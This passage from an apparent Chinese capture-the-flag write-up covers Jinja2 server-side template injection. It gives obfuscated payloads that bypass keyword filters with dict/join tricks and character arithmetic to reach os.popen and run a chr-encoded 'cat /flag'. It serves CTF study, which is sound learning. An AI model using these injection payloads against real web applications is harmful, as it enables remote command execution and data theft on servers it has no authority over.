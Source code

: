 

<img src="https://i-blog.csdnimg.cn/blog_migrate/5bd63be598a913773ad110b4e12974a6.png" alt="" style="max-height:696px; box-sizing:content-box;" />


然后就是获取read

## 获取read

```cobol
name={%set read=dict(read=a)|join%}{%print read%}
```

最后就是拼接执行命令

```cobol
name={%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set pp=dict(po=a,pen=b)|join%}
{%set builtins=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(dict(chr=a)|join)%}
{%set command=char(five*five*four-one)%2bchar(five*five*four-three)%2bchar(four*five*six-four)%2bchar(four*eight)%2bchar(six*eight-one)%2bchar(three*six*six-six)%2bchar(three*six*six)%2bchar(five*five*four-three)%2bchar(three*six*six-five)%}
{%set read=dict(read=a)|join%}{%print (lipsum|attr(globals))|attr(get)(shell)|attr(pp)(command)|attr(read)()%}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/a7177755d76efc475ad57a9cf08fd83f.png" alt="" style="max-height:706px; box-sizing:content-box;" />


确实学到了 但是这个太麻烦了 这个是很极端的我们这道题没有过滤这么多

## 正常来

```objectivec
{% set pop=dict(pop=1)|join %}   
 
{% set kong=(lipsum|string|list)|attr(pop)(9) %}
 
{% set xhx=(lipsum|string|list)|attr(pop)(18) %}
 
{% set re=(config|string|list)|attr(pop)(239) %}
 
{% set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join %}
 
{% set geti=(xhx,xhx,dict(get=a,item=b)|join,xhx,xhx)|join %}
 
{% set o=dict(o=a,s=b)|join %}
 
{% set po=dict(pop=a,en=b)|join %}
 
{% set cmd=(dict(cat=a)|join,kong,re,dict(flag=a)|join)|join %}
 
```